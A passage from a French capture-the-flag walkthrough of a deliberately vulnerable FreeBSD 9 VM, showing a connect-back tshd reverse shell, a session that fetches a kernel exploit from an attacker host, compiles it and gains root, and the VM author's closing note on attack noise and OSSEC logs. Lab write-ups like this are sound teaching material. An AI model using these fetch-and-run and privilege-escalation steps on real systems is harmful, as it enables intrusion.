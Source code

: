 On va pouvoir rapatrier un *tshd* (voir mes précédents articles) et le compiler en mode connect-back (*make freebsd* après édition de *tsh.h*).  

Une fois qu'on a un shell digne de ce nom, il nous reste plus qu'à passer root. On trouve [un exploit pour le kernel 9 sur exploit-db](http://www.exploit-db.com/exploits/26368/) :  

```plain
$ fetch http://192.168.1.3:8000/sploit.c
sploit.c                                      100% of 2215  B   17 MBps
$ gcc -o sploit sploit.c
$ ./sploit
FreeBSD 9.{0,1} mmap/ptrace exploit
by Hunger <fbsd9lul@hunger.hu>
# id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
# ls /root
.cshrc                  .k5login                .mysql_history          congrats.txt            httpd-access.log        monitor.py
.history                .login                  .profile                folderMonitor.log       lazyClearLog.sh         ossec-alerts.log
# cat /root/congrats.txt 
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS 
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...

```
